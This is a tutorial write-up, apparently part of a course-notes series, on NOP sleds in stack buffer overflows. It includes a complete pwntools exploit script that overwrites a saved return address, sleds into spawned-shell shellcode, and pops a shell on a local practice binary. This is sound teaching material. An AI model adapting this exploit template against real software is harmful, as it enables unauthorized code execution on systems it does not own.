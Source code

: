 This is part III of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part II [here](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation).

# B&E III: NOP Sleds

If you were following along in the last two parts, you would have noticed that the addresses I was referencing are different than the ones you may be seeing.

The difference in addresses on different systems is due mainly to _the environment variables stored by the stack._ If you were to add an environment variable in your system and then re-compile the binary, the addresses would be different.

Even the `$PWD` variable for the current working directory will effect the addresses if you were to run the binary from a different directory.

Because of this _our exploit code is not likely to work on a different target system_ because we don't know the exact address our shellcode will be at (even if we place it at the beginning of our injection like last time).

However, _the offsets will be the same_. That's because, as long as the code for the vulnerable program is the same, it compiles into the same binary. So, the length in memory between the `name` variable and the saved RIP on the stack is still 280 bytes.

So, since we can't control for the exact address where our malicious code will end up, we're going to move our shellcode to the end of the injection and 'slide' into it from the saved RIP using NOPs.

## NOP Sleds

In our basic overflow ([part 2](https://trshpuppy.github.io/portfolio/writeups/classic-buffer-overflow) of this series), we overwrote the saved RIP with the exact address of our shellcode (which was placed at the beginning of our injection payload).
<br>
<br>
![](/md-images/Pasted%20image%2020231121173335.png)
<br>
<br>
This time, we're still overwriting the saved RIP, but the address we place in there will be a guess. We're going to put an address which, according to our _best guess_ is an address within our NOP sled, which is the next part of the injection payload.

### What is a NOP?

'NOP' stands for 'non operational' of 'no operation' and refers to computer instructions in machine language which do nothing. The point of a NOP in assembly is to _not change the state of the program_ (although they often take a specific number of clock cycles to execute).

In our architecture, we'll be using the literal `nop operation` which is `b'\x90'`.

### Why NOP?

Because we can't reliably pick an address for our shellcode on the stack we're going to use NOPs in our payload as _executable filler_. Between the end of our 280 `chars` and our exploit code, we'll add a long sequence of NOPs. Then, we'll guess an address that's likely to be in our NOP sled (`0x7fffffffe000`), and overwrite the saved RIP with that address.

This will essentially widen the window of addresses which will capture the CPU for execution. If the address we overwrite the saved RIP with is within the NOP sled, the CPU will enter the sled at that address, begin executing the NOPs and _slide into our shellcode_ placed at the end of the NOP sequence. That's why this technique is called a _NOP sled_.

Using this technique, our payload on the stack will look something like this:
<br>
<br>
![](/md-images/Pasted%20image%2020231124142229.png)
<br>
<br>
Compared to our basic overflow (the first image) the shellcode is at the _END_ of the NOP sled instead of at the beginning of our payload (at the `name` variable). If we point the CPU to any of the addresses between the saved RIP and the shellcode, our shellcode is guaranteed to get executed.

### NOP Sled Length

We want our NOP sled to be pretty long so we can _increase the likelihood_ that our guessed address will be within the addresses the sled spans. This greatly increases our chance of capturing the CPU's execution flow, even in systems we haven't tested on.

## Re-Writing our Exploit

Our exploit code will now look like this:

```python
#!/usr/bin/env python3
from pwn import *

# we overflow saved rip after 280 or 0x118 bytes
overflow_offset_rip = 0x118

# we point saved rip to the stack hoping to hit our NOPSLED
new_rip = 0x7fffffffe000

# construct shellcode
# let pwntools know we're dealing with a 64-bit target
context.update(arch="amd64")

# assemble shellcode
shellcode = asm(shellcraft.amd64.linux.sh())

NOP_SLED = b"\x90" * 2048

# construct payload
payload = b"A" * overflow_offset_rip
payload += p64(new_rip)
payload += NOP_SLED
payload += shellcode

# connect to the vulnerable program p = process("./vuln_1")
p = process("./vuln_1")

# send the payload
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")

p.interactive()
```

Compared to our basic overflow code:

1. The `new_rip` is set to the address we're guessing is within the NOP sled.
2. The character filler portion of the shellcode isn't subtracted from to make room for the `shelcode` (since it will be at the end this time).
3. The `NOP_SLED` variable is new and consists of 2048 `nop` operations (`b'\x90'`).
4. The `shellcode` is added to the end of the payload and not the beginning.

## NOP Slide into the Main Frame!

```bash
┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ ./exploit.py
[+] Starting local process './vuln_1': pid 1284173
[*] Switching to interactive mode
$ whoami
hakcypuppy
$
```

_Noice!_

In the next part of this series, we'll make our exploit _even more reliable_ by using ROP Gadgets!

> Resources
>
> -   [Wikipedia: Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
> -   [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)
> -   [Wikipedia: NOP](<https://en.wikipedia.org/wiki/NOP_(code)>)
> -   [Wikipedia: NOP Slide](https://en.wikipedia.org/wiki/NOP_slide)

> My previous notes:
>
> -   You'll find them all [here](https://github.com/TrshPuppy/obsidian-notes)

